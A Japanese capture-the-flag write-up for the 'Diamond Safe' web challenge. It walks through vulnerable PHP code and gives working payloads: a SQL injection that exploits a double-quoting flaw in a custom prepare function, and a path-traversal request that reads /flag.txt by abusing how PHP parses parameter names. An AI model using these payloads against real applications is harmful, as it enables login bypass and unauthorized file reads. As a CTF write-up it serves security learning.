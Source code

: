 # [web] Diamond Safe

問題はログインの部分とフラグをとる部分に分かれる。

構成は以下の通り  
php-fpm に flag.txt がある。  

```yml
version: '3.7'

services:
  web:
      image: nginx:latest
      restart: unless-stopped
      env_file: .env
      ports:
          - "4444:80"
      volumes:
          - ./src:/var/www/html
          - ./templates:/etc/nginx/templates
      depends_on: 
        - db
        - php-fpm
      networks:
        - phpnet


  php-fpm:
      build: ./fpm
      restart: unless-stopped
      env_file: .env
      volumes:
          - ./src:/var/www/html
          - ./files:/var/www/files
          - ./flag.txt:/flag.txt:ro
      depends_on: 
        - db
      networks:
        - phpnet


  db:
    image: mysql:5.7
    env_file: .env
    restart: unless-stopped
    networks:
        - phpnet

networks:
  phpnet:
    name: phpnet
```

## ログイン

php-fpm のコードを見ると、ログインの部分は以下のようになっている。  
sql の部分が自前で実装されている。  
`db.prepare` は 第一引数の`%s` の数が第二引数の長さが等しい時、`%s` をクォートで囲んで、引数で置換されるようになっていた。  
> その他の処理も入っている。
```php

$query = db::prepare("SELECT * FROM `users` where password=sha1(%s)", $_POST['password']);

if (isset($_POST['name'])) {
    $query = db::prepare($query . " and name=%s", $_POST['name']);
} else {
    $query = $query . " and name='default'";
}
$query = $query . " limit 1";
echo $query;

$result = db::commit($query);


```

一回目の`$_POST['password']`が`%s`を含んでいると、その次に`db.prepare` を呼ぶと再度クォートが追加されるので任意のsql文を実行することができる。  
最終的なペイロードは以下のようになる。

`password=%s&name[]=) or 1=1; #&name[]=aa` 


## フラグ

`download.php`を見ると以下のような部分があるので、任意のファイルを読み取ることができる
```php
$file = '/var/www/files/' . $_GET['file_name'];
if (!file_exists($file)) {
    echo "file not exist";
    redirect('vault.php');
    die();
} else {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="' . basename($file) . '"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}

```

この部分が読みだされる前に`check_url` が呼び出されている。  
hash には環境変数が含まれており、それを特定するのは困難なので、それ以外の方法を考える。  

`files` 以下にあるファイルに対するハッシュ値はわかっているので、そのハッシュを使って条件を回避する。  
ここでファイルを読みだす部分は `$_GET['file_name']` の値が使われ、ハッシュ値の確認には`$params['file_name']`が使われている。  
この差分を利用する。  処理は以下の php を参照

```php
function check_url()
{
    // fixed bypasses with arrays in get parameters
    $query  = explode('&', $_SERVER['QUERY_STRING']);
    $params = array();
    foreach ($query as $param) {
        // prevent notice on explode() if $param has no '='
        if (strpos($param, '=') === false) {
            $param += '=';
        }
        list($name, $value) = explode('=', $param, 2);
        $params[urldecode($name)] = urldecode($value);
    }

    if (!isset($params['file_name']) or !isset($params['h'])) {
        return False;
    }

    $secret = getenv('SECURE_URL_SECRET');
    $hash = md5("{$secret}|{$params['file_name']}|{$secret}");

    if ($hash === $params['h']) {
        return True;
    }
    return False;
}
```

php の仕様で `file.name` みたいなクエリパラメータを `$_GET['file_name']`でとれる。  
さらにphp は重複するクエリパラメータの最後のものを採用する。  
>ドキュメントの下のほうに書いてあった気がするがどこか忘れたので見つけ次第追記する。

よって以下のようなリクエストをするとフラグが得られる。


`download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file.name=../../../flag.txt`

`flag{lul_php_challenge_1n_2021_lul}`
